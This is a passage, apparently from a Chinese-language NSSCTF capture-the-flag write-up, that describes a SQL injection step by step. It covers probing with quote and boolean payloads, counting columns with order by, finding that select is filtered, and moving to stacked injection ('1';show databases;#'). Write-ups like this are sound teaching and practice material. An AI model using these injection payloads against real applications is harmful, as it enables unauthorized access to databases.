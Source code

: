尝试注入

1，用union联合查询

　　第一步、尝试测试注入点（一些小tips：利用引号，and 1=1， or 1=1之类的）判断是字符型还是数字型

　　1' 报错 

　　1'# 不报错，正常回显 

　　1' and 1=1# 不报错，正常回显 

　　1' or 1=1# 不报错，正常回显

　　说明存在SQL注入

　　第二步、尝试用order by语句查询表的列数

　　1' order by 1;#不报错，正常回显

　　1' order by 2;#不报错，正常回显

　　1' order by 3;#报错

　　说明这张表有三列

　　第三步、尝试用union select 找到回显位

![image-20250815092312543](./NSSCTF-5.assets/image-20250815092312543.png)

　　发现回显过滤了关键字

4.既然select关键字无法使用，我们可以通过堆叠注入的方式，来绕过select关键字。

5.查看数据库名：

```
1';show databases;#
```
